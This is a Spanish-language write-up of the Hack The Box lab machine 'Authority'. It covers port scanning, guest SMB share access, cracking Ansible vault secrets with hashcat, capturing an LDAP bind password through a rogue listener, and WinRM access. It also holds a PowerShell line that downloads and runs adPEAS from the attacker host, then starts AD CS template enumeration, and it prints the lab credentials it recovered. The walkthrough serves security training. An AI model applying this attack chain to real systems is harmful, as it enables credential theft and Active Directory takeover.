

# Authority

`Authority` es una máquina Windows de dificultad media que resalta los peligros de las configuraciones incorrectas, la reutilización de contraseñas, el almacenamiento de credenciales en recursos compartidos y demuestra cómo las configuraciones predeterminadas en Active Directory (como la capacidad de todos los usuarios del dominio de agregar hasta 10 computadoras al dominio) se pueden combinar con otros problemas (plantillas de certificado AD CS vulnerables) para apoderarse de un dominio.

<figure><figcaption></figcaption></figure>

***


```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.222 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-22 04:07 CET
Initiating SYN Stealth Scan at 04:07
Scanning 10.10.11.222 [65535 ports]
Discovered open port 135/tcp on 10.10.11.222
Discovered open port 445/tcp on 10.10.11.222
Discovered open port 139/tcp on 10.10.11.222
Discovered open port 80/tcp on 10.10.11.222
Discovered open port 53/tcp on 10.10.11.222
Discovered open port 9389/tcp on 10.10.11.222
Discovered open port 47001/tcp on 10.10.11.222
Discovered open port 49667/tcp on 10.10.11.222
Discovered open port 464/tcp on 10.10.11.222
Discovered open port 53249/tcp on 10.10.11.222
Discovered open port 3268/tcp on 10.10.11.222
Discovered open port 49664/tcp on 10.10.11.222
Discovered open port 5985/tcp on 10.10.11.222
Discovered open port 88/tcp on 10.10.11.222
Discovered open port 49692/tcp on 10.10.11.222
Discovered open port 49673/tcp on 10.10.11.222
Discovered open port 593/tcp on 10.10.11.222
Discovered open port 49704/tcp on 10.10.11.222
Discovered open port 49665/tcp on 10.10.11.222
Discovered open port 49695/tcp on 10.10.11.222
Discovered open port 3269/tcp on 10.10.11.222
Discovered open port 49709/tcp on 10.10.11.222
Discovered open port 49696/tcp on 10.10.11.222
Discovered open port 49693/tcp on 10.10.11.222
Discovered open port 53230/tcp on 10.10.11.222
Discovered open port 636/tcp on 10.10.11.222
Discovered open port 8443/tcp on 10.10.11.222
Discovered open port 389/tcp on 10.10.11.222
Discovered open port 49666/tcp on 10.10.11.222
Completed SYN Stealth Scan at 04:07, 28.08s elapsed (65535 total ports)
Nmap scan report for 10.10.11.222
Host is up, received user-set (0.13s latency).
Scanned at 2025-02-22 04:07:03 CET for 28s
Not shown: 62136 closed tcp ports (reset), 3370 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
80/tcp    open  http             syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
8443/tcp  open  https-alt        syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49665/tcp open  unknown          syn-ack ttl 127
49666/tcp open  unknown          syn-ack ttl 127
49667/tcp open  unknown          syn-ack ttl 127
49673/tcp open  unknown          syn-ack ttl 127
49692/tcp open  unknown          syn-ack ttl 127
49693/tcp open  unknown          syn-ack ttl 127
49695/tcp open  unknown          syn-ack ttl 127
49696/tcp open  unknown          syn-ack ttl 127
49704/tcp open  unknown          syn-ack ttl 127
49709/tcp open  unknown          syn-ack ttl 127
53230/tcp open  unknown          syn-ack ttl 127
53249/tcp open  unknown          syn-ack ttl 127

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 28.18 seconds
           Raw packets sent: 79038 (3.478MB) | Rcvd: 62564 (2.503MB)
```


```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.222
	[*] Open ports: 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,8443,9389,47001,49664,49665,49666,49667,49673,49692,49693,49695,49696,49704,49709,53230,53249

[*] Ports copied to clipboard
```


```bash
❯ nmap -sCV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,8443,9389,47001,49664,49665,49666,49667,49673,49692,49693,49695,49696,49704,49709,53230,53249 10.10.11.222 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-22 04:07 CET
Nmap scan report for authority.htb (10.10.11.222)
Host is up (0.22s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-22 05:39:33Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2025-02-22T05:40:59+00:00; +2h31m41s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2025-02-22T05:41:00+00:00; +2h31m41s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2025-02-22T05:40:59+00:00; +2h31m41s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2025-02-22T05:41:00+00:00; +2h31m41s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8443/tcp  open  ssl/http      Apache Tomcat (language: en)
| ssl-cert: Subject: commonName=172.16.2.118
| Not valid before: 2025-02-20T05:32:37
|_Not valid after:  2027-02-22T17:11:01
|_ssl-date: TLS randomness does not represent time
|_http-title: Site doesn't have a title (text/html;charset=ISO-8859-1).
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49693/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
49709/tcp open  msrpc         Microsoft Windows RPC
53230/tcp open  msrpc         Microsoft Windows RPC
53249/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows 2019|10|2012|2022|2016|2008|7|Vista (95%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_vista::sp1:home_premium
Aggressive OS guesses: Microsoft Windows Server 2019 (95%), Windows Server 2019 (92%), Microsoft Windows 10 1909 (92%), Microsoft Windows 10 1909 - 2004 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2022 (91%), Microsoft Windows Server 2016 (90%), Microsoft Windows 10 20H2 (89%), Microsoft Windows 10 20H2 - 21H1 (89%), Microsoft Windows 10 21H2 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: AUTHORITY; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-02-22T05:40:53
|_  start_date: N/A
|_clock-skew: mean: 2h31m40s, deviation: 0s, median: 2h31m40s

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   207.94 ms 10.10.16.1
2   85.60 ms  authority.htb (10.10.11.222)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.49 seconds
```


```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


<figure><figcaption></figcaption></figure>


```bash
❯ nxc smb 10.10.11.222
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
❯ ldapsearch -x -H ldap://10.10.11.222 -s base | grep defaultNamingContext
defaultNamingContext: DC=authority,DC=htb
```


```bash
❯ catnp /etc/hosts | grep authority
10.10.11.222 authority.htb AUTHORITY.authority.htb
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
❯ feroxbuster -u http://10.10.11.222/ -t 200 -C 500,502,404
                                                                                                                                                                                                                                      
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.222/
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [500, 502, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       29l       95w     1245c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      334l     2089w   180418c http://10.10.11.222/iisstart.png
200      GET       32l       55w      703c http://10.10.11.222/
400      GET        6l       26w      324c http://10.10.11.222/error%1F_log
[####################] - 20s    30005/30005   0s      found:3       errors:0      
[####################] - 19s    30002/30002   1555/s  http://10.10.11.222/  
```


```bash
❯ nxc smb 10.10.11.222 -u 'guest' -p ''
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\guest: 
❯ nxc smb 10.10.11.222 -u 'guest' -p '' --shares
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\guest: 
SMB         10.10.11.222    445    AUTHORITY        [*] Enumerated shares
SMB         10.10.11.222    445    AUTHORITY        Share           Permissions     Remark
SMB         10.10.11.222    445    AUTHORITY        -----           -----------     ------
SMB         10.10.11.222    445    AUTHORITY        ADMIN$                          Remote Admin
SMB         10.10.11.222    445    AUTHORITY        C$                              Default share
SMB         10.10.11.222    445    AUTHORITY        Department Shares                 
SMB         10.10.11.222    445    AUTHORITY        Development     READ            
SMB         10.10.11.222    445    AUTHORITY        IPC$            READ            Remote IPC
SMB         10.10.11.222    445    AUTHORITY        NETLOGON                        Logon server share 
SMB         10.10.11.222    445    AUTHORITY        SYSVOL                          Logon server share 
```


```bash
❯ sudo mount -t cifs -o username='guest',password='' '//10.10.11.222/Development' /mnt/shares
[sudo] contraseña para kali: 
❯ ls -l /mnt/shares
drwxr-xr-x root root 0 B Fri Mar 17 14:20:40 2023  Automation
❯ cp -r /mnt/shares/Automation .
```


```bash
❯ cd Automation
❯ tree -a
.
└── Ansible
    ├── ADCS
    │   ├── .ansible-lint
    │   ├── defaults
    │   │   └── main.yml
    │   ├── LICENSE
    │   ├── meta
    │   │   ├── main.yml
    │   │   └── preferences.yml
    │   ├── molecule
    │   │   └── default
    │   │       ├── converge.yml
    │   │       ├── molecule.yml
    │   │       └── prepare.yml
    │   ├── README.md
    │   ├── requirements.txt
    │   ├── requirements.yml
    │   ├── SECURITY.md
    │   ├── tasks
    │   │   ├── assert.yml
    │   │   ├── generate_ca_certs.yml
    │   │   ├── init_ca.yml
    │   │   ├── main.yml
    │   │   └── requests.yml
    │   ├── templates
    │   │   ├── extensions.cnf.j2
    │   │   └── openssl.cnf.j2
    │   ├── tox.ini
    │   ├── vars
    │   │   └── main.yml
    │   └── .yamllint
    ├── LDAP
    │   ├── .bin
    │   │   ├── clean_vault
    │   │   ├── diff_vault
    │   │   └── smudge_vault
    │   ├── defaults
    │   │   └── main.yml
    │   ├── files
    │   │   └── pam_mkhomedir
    │   ├── handlers
    │   │   └── main.yml
    │   ├── meta
    │   │   └── main.yml
    │   ├── README.md
    │   ├── tasks
    │   │   └── main.yml
    │   ├── templates
    │   │   ├── ldap_sudo_groups.j2
    │   │   ├── ldap_sudo_users.j2
    │   │   ├── sssd.conf.j2
    │   │   └── sudo_group.j2
    │   ├── TODO.md
    │   ├── .travis.yml
    │   ├── Vagrantfile
    │   └── vars
    │       ├── debian.yml
    │       ├── main.yml
    │       ├── redhat.yml
    │       └── ubuntu-14.04.yml
    ├── PWM
    │   ├── ansible.cfg
    │   ├── ansible_inventory
    │   ├── defaults
    │   │   └── main.yml
    │   ├── handlers
    │   │   └── main.yml
    │   ├── meta
    │   │   └── main.yml
    │   ├── README.md
    │   ├── tasks
    │   │   └── main.yml
    │   └── templates
    │       ├── context.xml.j2
    │       └── tomcat-users.xml.j2
    └── SHARE
        └── tasks
            └── main.yml

27 directories, 52 files
```

Automation/Ansible/PWM/defaults

```yaml
---
pwm_run_dir: "{{ lookup('env', 'PWD') }}"

pwm_hostname: authority.htb.corp
pwm_http_port: "{{ http_port }}"
pwm_https_port: "{{ https_port }}"
pwm_https_enable: true

pwm_require_ssl: false

pwm_admin_login: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          32666534386435366537653136663731633138616264323230383566333966346662313161326239
          6134353663663462373265633832356663356239383039640a346431373431666433343434366139
          35653634376333666234613466396534343030656165396464323564373334616262613439343033
          6334326263326364380a653034313733326639323433626130343834663538326439636232306531
          3438

pwm_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          31356338343963323063373435363261323563393235633365356134616261666433393263373736
          3335616263326464633832376261306131303337653964350a363663623132353136346631396662
          38656432323830393339336231373637303535613636646561653637386634613862316638353530
          3930356637306461350a316466663037303037653761323565343338653934646533663365363035
          6531

ldap_uri: ldap://127.0.0.1/
ldap_base_dn: "DC=authority,DC=htb"
ldap_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          63303831303534303266356462373731393561313363313038376166336536666232626461653630
          3437333035366235613437373733316635313530326639330a643034623530623439616136363563
          34646237336164356438383034623462323531316333623135383134656263663266653938333334
          3238343230333633350a646664396565633037333431626163306531336336326665316430613566
          3764
```





```bash
❯ cat pwm_admin_login pwm_admin_password ldap_admin_password
$ANSIBLE_VAULT;1.1;AES256
          32666534386435366537653136663731633138616264323230383566333966346662313161326239
          6134353663663462373265633832356663356239383039640a346431373431666433343434366139
          35653634376333666234613466396534343030656165396464323564373334616262613439343033
          6334326263326364380a653034313733326639323433626130343834663538326439636232306531
          3438
$ANSIBLE_VAULT;1.1;AES256
          31356338343963323063373435363261323563393235633365356134616261666433393263373736
          3335616263326464633832376261306131303337653964350a363663623132353136346631396662
          38656432323830393339336231373637303535613636646561653637386634613862316638353530
          3930356637306461350a316466663037303037653761323565343338653934646533663365363035
          6531
$ANSIBLE_VAULT;1.1;AES256
          63303831303534303266356462373731393561313363313038376166336536666232626461653630
          3437333035366235613437373733316635313530326639330a643034623530623439616136363563
          34646237336164356438383034623462323531316333623135383134656263663266653938333334
          3238343230333633350a646664396565633037333431626163306531336336326665316430613566
          3764
❯ awk 'NR==1{print; next} {printf "%s", $0} END{print ""}' pwm_admin_login | tr -d ' ' > temp && mv temp pwm_admin_login
❯ awk 'NR==1{print; next} {printf "%s", $0} END{print ""}' pwm_admin_password | tr -d ' ' > temp && mv temp pwm_admin_password
❯ awk 'NR==1{print; next} {printf "%s", $0} END{print ""}' ldap_admin_password | tr -d ' ' > temp && mv temp ldap_admin_password
❯ cat pwm_admin_login pwm_admin_password ldap_admin_password
$ANSIBLE_VAULT;1.1;AES256
326665343864353665376531366637316331386162643232303835663339663466623131613262396134353663663462373265633832356663356239383039640a346431373431666433343434366139356536343763336662346134663965343430306561653964643235643733346162626134393430336334326263326364380a6530343137333266393234336261303438346635383264396362323065313438
$ANSIBLE_VAULT;1.1;AES256
313563383439633230633734353632613235633932356333653561346162616664333932633737363335616263326464633832376261306131303337653964350a363663623132353136346631396662386564323238303933393362313736373035356136366465616536373866346138623166383535303930356637306461350a3164666630373030376537613235653433386539346465336633653630356531
$ANSIBLE_VAULT;1.1;AES256
633038313035343032663564623737313935613133633130383761663365366662326264616536303437333035366235613437373733316635313530326639330a643034623530623439616136363563346462373361643564383830346234623235313163336231353831346562636632666539383333343238343230333633350a6466643965656330373334316261633065313363363266653164306135663764
```


```bash
❯ ansible2john pwm_admin_login pwm_admin_password ldap_admin_password | tee hashes > hashes
❯ cat hashes
pwm_admin_login:$ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8
pwm_admin_password:$ansible$0*0*15c849c20c74562a25c925c3e5a4abafd392c77635abc2ddc827ba0a1037e9d5*1dff07007e7a25e438e94de3f3e605e1*66cb125164f19fb8ed22809393b1767055a66deae678f4a8b1f8550905f70da5
ldap_admin_password:$ansible$0*0*c08105402f5db77195a13c1087af3e6fb2bdae60473056b5a477731f51502f93*dfd9eec07341bac0e13c62fe1d0a5f7d*d04b50b49aa665c4db73ad5d8804b4b2511c3b15814ebcf2fe98334284203635
```


```bash
❯ hashcat -a 0 -m 16900 hashes /usr/share/wordlists/rockyou.txt --user
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 3 digests; 3 unique digests, 3 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 2 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344387
* Bytes.....: 139921528
* Keyspace..: 14344387

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$ansible$0*0*15c849c20c74562a25c925c3e5a4abafd392c77635abc2ddc827ba0a1037e9d5*1dff07007e7a25e438e94de3f3e605e1*66cb125164f19fb8ed22809393b1767055a66deae678f4a8b1f8550905f70da5:!@#$%^&*
$ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8:!@#$%^&*
$ansible$0*0*c08105402f5db77195a13c1087af3e6fb2bdae60473056b5a477731f51502f93*dfd9eec07341bac0e13c62fe1d0a5f7d*d04b50b49aa665c4db73ad5d8804b4b2511c3b15814ebcf2fe98334284203635:!@#$%^&*
```


```bash
❯ cat pwm_admin_login | ansible-vault decrypt; echo
Vault password: 
Decryption successful
svc_pwm
❯ cat pwm_admin_password | ansible-vault decrypt; echo
Vault password: 
Decryption successful
pWm_@dm!N_!23
❯ cat ldap_admin_password | ansible-vault decrypt; echo
Vault password: 
Decryption successful
DevT3st@123
```


```bash
❯ nxc smb 10.10.11.222 -u 'svc_pwm' -p 'pWm_@dm!N_!23'
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\svc_pwm:pWm_@dm!N_!23 (Guest)
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
❯ nc -nlvp 389
listening on [any] 389 ...
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
❯ nc -nlvp 389
listening on [any] 389 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.222] 64084
0Y`T;CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb�lDaP_1n_th3_cle4r!
```


<figure><figcaption></figcaption></figure>


```bash
❯ nxc smb 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! 
❯ nxc winrm 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
WINRM       10.10.11.222    5985   AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 (name:AUTHORITY) (domain:authority.htb)
WINRM       10.10.11.222    5985   AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! (Pwn3d!)
❯ evil-winrm -i 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> type ../Desktop/user.txt
8af7e6062866023a6f93c2ad4edb882f
```


```bash
❯ wget https://raw.githubusercontent.com/61106960/adPEAS/refs/heads/main/adPEAS.ps1
--2025-02-22 05:05:44--  https://raw.githubusercontent.com/61106960/adPEAS/refs/heads/main/adPEAS.ps1
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.108.133, 185.199.111.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.110.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 3493853 (3,3M) [text/plain]
Grabando a: «adPEAS.ps1»

adPEAS.ps1                                                100%[===================================================================================================================================>]   3,33M  3,54MB/s    en 0,9s    

2025-02-22 05:05:46 (3,54 MB/s) - «adPEAS.ps1» guardado [3493853/3493853]

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


```powershell
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> IEX(New-Object Net.WebClient).downloadString("http://10.10.16.3/adPEAS.ps1")
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> Invoke-adPEAS
```


```powershell
[?] +++++ Searching for Active Directory Certificate Services Information +++++
[+] Found at least one available Active Directory Certificate Service
adPEAS does basic enumeration only, consider reading https://posts.specterops.io/certified-pre-owned-d95910965cd2

[+] Found Active Directory Certificate Services 'AUTHORITY-CA':
CA Name:				AUTHORITY-CA
CA dnshostname:				authority.authority.htb
CA IP Address:				10.10.11.222
Date of Creation:			04/24/2023 01:56:26
DistinguishedName:			CN=AUTHORITY-CA,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=authority,DC=htb
NTAuthCertificates:			True
Available Templates:			CorpVPN
					AuthorityLDAPS
					DirectoryEmailReplication
					DomainControllerAuthentication
					KerberosAuthentication
					EFSRecovery
					EFS
					DomainController
					WebServer
					Machine
					User
					SubCA
					Administrator

[?] +++++ Searching for Vulnerable Certificate Templates +++++
adPEAS does basic enumeration only, consider using https://github.com/GhostPack/Certify or https://github.com/ly4k/Certipy

[?] +++++ Checking Template 'CorpVPN' +++++
[!] Template 'CorpVPN' has Flag 'ENROLLEE_SUPPLIES_SUBJECT'
[+] Identity 'HTB\Domain Computers' has enrollment rights for template 'CorpVPN'
Template Name:				CorpVPN
Template distinguishedname:		CN=CorpVPN,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=authority,DC=htb
Date of Creation:			03/24/2023 23:48:09
[+] Extended Key Usage:			Encrypting File System, Secure E-mail, Client Authentication, Document Signing, 1.3.6.1.5.5.8.2.2, IP Security User, KDC Authentication
EnrollmentFlag:				INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT_CHECK_USER_DS_CERTIFICATE
[!] CertificateNameFlag:		ENROLLEE_SUPPLIES_SUBJECT
[+] Enrollment allowed for:		HTB\Domain Computers
```


```bash
❯ certipy-ad find -u 'svc_ldap'@10.10.11.222 -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.10.11.222 -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'AUTHORITY-CA' via CSRA
[!] Got error while trying to get CA configuration for 'AUTHORITY-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'AUTHORITY-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'AUTHORITY-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
    Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Certificate Validity Start          : 2023-04-24 01:46:26+00:00
    Certificate Validity End            : 2123-04-24 01:56:25+00:00
